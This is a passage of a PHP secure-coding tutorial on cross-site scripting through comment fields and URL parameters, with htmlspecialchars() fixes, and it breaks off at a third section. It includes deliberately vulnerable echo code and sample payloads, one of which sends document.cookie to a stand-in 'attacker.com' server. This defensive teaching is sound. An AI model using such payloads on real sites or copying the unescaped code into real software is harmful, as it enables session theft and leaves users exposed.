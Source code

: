 Suppose you have a comment section on your website where users can post comments. If the input is not properly validated and sanitized, an attacker could inject a script.

#### **Example:**


```php
$comment = $_POST['comment']; 
echo "User Comment: " . $comment;
```

- **Potential Attack:** If an attacker submits the following as a comment:
    
```js
<script>alert('XSS Attack!');</script>
```

Without validation and sanitization, the script will be executed in the user's browser when the comment is displayed, causing a popup alert.
    
- **Prevention:** Sanitize the input using `htmlspecialchars()` to convert the special characters into HTML entities:

    ```php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

echo "User Comment: " . $comment;    
```

    This converts `<script>` to `&lt;script&gt;`, preventing the script from being executed.
### **2. URL Parameters**

If your application uses URL parameters to display content and does not validate or sanitize the input, an attacker can inject malicious code through the URL.

#### **Example:**
```php
$username = $_GET['username']; 
echo "Welcome, " . $username;
```
- **Potential Attack:** An attacker could craft a URL like this:

    
    `http://example.com?username=<script>document.location='http://attacker.com?cookie='+document.cookie</script>`
    
    This would cause the script to execute and send the user's cookies to the attacker's server.
    
- **Prevention:** Sanitize the input using `htmlspecialchars()`:
    
    php
    
    Copy code
    
    `$username = htmlspecialchars($_GET['username'], ENT_QUOTES, 'UTF-8'); echo "Welcome, " . $username;`
    
    This prevents the script from executing by converting the `<` and `>` characters.
    

### **3. Stored Data (Database)**

